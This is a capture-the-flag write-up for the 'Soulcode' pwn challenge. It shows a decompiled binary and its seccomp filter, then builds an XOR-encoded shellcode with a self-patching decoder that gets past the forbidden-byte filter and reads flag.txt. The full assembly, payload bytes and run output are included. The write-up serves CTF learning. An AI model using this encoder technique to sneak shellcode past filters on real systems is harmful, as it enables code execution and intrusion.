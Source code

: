 ```yaml
---
title: Soulcode
date: 2023-06-05T23:11:16+03:00
type: writeup
author: sunbather
tags:
  - pwn
---
```

# Soulcode

The challenge consisted of bypassing various filters to run a shellcode. 

## Main function decompiled


```c
bool main(void)

{
  int iVar1;
  long lVar2;
  undefined8 *puVar3;
  byte bVar4;
  undefined8 local_208;
  undefined8 local_200;
  undefined8 local_1f8 [62];
  
  bVar4 = 0;
  puts("Before you leave the realm of the dead you must leave a message for posterity!");
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_208 = 0;
  local_200 = 0;
  puVar3 = local_1f8;
  for (lVar2 = 0x3c; lVar2 != 0; lVar2 = lVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
  }
  *(undefined4 *)puVar3 = 0;
  read_string(&local_208,500,(undefined4 *)((long)puVar3 + 4)); // READ SHELLCODE FROM USER
  filter(&local_208,4);                                         // FILTER BAD OPCODES
  iVar1 = install_syscall_filter();                             // FILTER BAD SYSCALLS
  if (iVar1 == 0) {
    (*(code *)&local_208)();                                    // RUN SHELLCODE
  }
  return iVar1 != 0;
}
```

You can determine the 3 distinct, important steps that the program does:
1. Read shellcode from user.
2. Filter bad opcodes using the ``filter()`` function.
3. Filter bad syscalls using seccomp in ``install_syscall_filter()``.
4. Run shellcode.

The idea of the challenge was trying to bypass these filters. The forbidden opcodes/bytes were: ``0xCD``, ``0x80``, ``0x0F``, ``0x05``, ``0x89``.

Using ``seccomp-tools dump ./soulcode`` (tool: [seccomp-tools](https://github.com/david942j/seccomp-tools)), we can determine the seccomp-filters are:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```
WARNING: The tool runs the executable, don't use with malware!!!

We can see the only syscalls we are allowed are ``open``, ``read``, ``write`` and ``exit``. This is enough to guess that we might have a ``flag.txt`` in the same directory and try to write its contents to stdout. The alternative to the tool was manually reading the ``install_syscall_filter()`` function and determining the filters, which sucks and nobody wants to do it.


## The solution

Our initial thought was that we have to bypass the forbidden opcodes. We didn't check the opcodes meaning, as there could have been a big number of instructions that containted them. So instead, we thought we can write a shellcode encrypter/decrypter that can decrypt a payload and run it. By having an encrypted payload we can use an arbitrary number of "forbidden" bytes and we only have to care to use permitted bytes in the code for the decrypter. During the CTF, we have taken the liberty to use an encrypter/decrypter (or encoder/decoder) found online, after modifying to fit the situation.

Credits to ired.team for most of the shellcode encoder/decoder: https://www.ired.team/offensive-security/code-injection-process-injection/writing-custom-shellcode-encoders-and-decoders

The interesting additions to the encoder is the ``xor_op`` label - the xorb operation we used there had a ``0x80`` byte in it, which is forbidden. To avoid that we substract one from the byte and then we add one at the beginning of the encoder, at runtime. This will pass the filters succesfully. Also, the encryption key ``0xc``, is picked with trial and error after checking for forbidden bytes after encryption.  

```asm
.global _start
.intel_syntax noprefix
_start:
	# deobfuscate xor_op
	xor rsi, rsi
	movb sil, [rip+xor_op+1]
	inc sil
	movb [rip+xor_op+1], sil
	jmp short shellcode

decoder:
	pop rax                 # store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

setup:
	xor rcx, rcx            # reset rcx to 0, will use this as a loop counter
	mov rdx, 95

decoderStub:
	cmp rcx, rdx            # check if we've iterated and decoded all the encoded bytes
	je encodedShellcode     # jump to the encodedShellcode, which actually now contains the decoded shellcode

	# encodedShellcode bytes are being decoded here per our decoding scheme
	xor rdi, rdi
	movb dil, [rax]
	xor_op: .byte 0x40, 0x7f, 0xf7, 0x0c # obfuscated xor op
	movb [rax], dil

	inc rax                 # point rax to the next encoded byte in encodedShellcode
	inc rcx                 # increase loop counter
	jmp short decoderStub   # repeat decoding procedure

shellcode:
	call decoder            # jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
	encodedShellcode: .byte 0x44, 0xcb, 0xcc, 0xe, 0xc, 0xc, 0xc, 0x44, 0x81, 0x31, 0x3a, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xfa, 0x44, 0x3d, 0xde, 0x3, 0x9, 0x44, 0x85, 0xcb, 0x44, 0x3d, 0xcc, 0x44, 0x85, 0xea, 0x44, 0xcb, 0xce, 0x4c, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0xd, 0xc, 0xc, 0xc, 0x44, 0xcb, 0xcb, 0xd, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0x30, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xf3, 0x3, 0x9, 0x6a, 0x60, 0x6d, 0x6b, 0x22, 0x78, 0x74, 0x78, 0xc
```

The encoded shellcode/payload is simply open ``flag.txt``, read and write to stdout, then exit:

```asm
.global _start
.intel_syntax noprefix
_start:
open:
	mov rax, 0x2
	lea rdi, [rip+flag]
	xor rsi, rsi
	xor rdx, rdx
	syscall

read:
	mov rdi, rax
	xor rax, rax
	mov rsi, rsp
	mov rdx, 0x40
	syscall

write:
	mov rax, 0x1
	mov rdi, 0x1
	syscall

exit:
	mov rax, 0x3c
	xor rdi, rdi
	syscall


flag:
	.string "flag.txt"
```

Then we get the shellcode for everything (check out [getsc](https://github.com/dothidden/tools/blob/main/pwn/getsc)) and we end up with the following payload:  
``\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c``

We then run the payload:  
```
$ echo -ne "\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c" | ./soulcode 
Before you leave the realm of the dead you must leave a message for posterity!
DANTE{.hidden_is_the_best}
�%XH1�H��_H9�t�H1�@�8@��
                        @�8H��H�
```
